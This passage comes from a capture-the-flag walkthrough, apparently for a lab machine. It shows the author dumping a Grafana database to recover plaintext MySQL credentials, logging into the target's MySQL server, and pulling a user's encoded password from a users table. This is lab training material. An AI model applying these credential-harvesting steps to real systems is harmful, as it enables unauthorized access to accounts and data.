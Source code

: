 So now we have access to the grafana database of our victim, we can enumerate the database and see what we can get from it, let’s enumerate it.

```bash
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-12-20 05:15:59|0|{}|1|uKewFgM4z
```
{: .nolineno }

Now we got the mysql user and password, we can connect to the database using those credentials

`grafana:dontStandSoCloseToMe63221!`

```bash
➜  mysql -h 10.10.11.183 -u grafana -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 38
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (1.379 sec)
```
{: .nolineno }

now we can start enumerating the whackywidget database and see it content.

# User Flag

In the whackywidget we found user credentials.

```bash
MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.278 sec)
```
{: .nolineno }
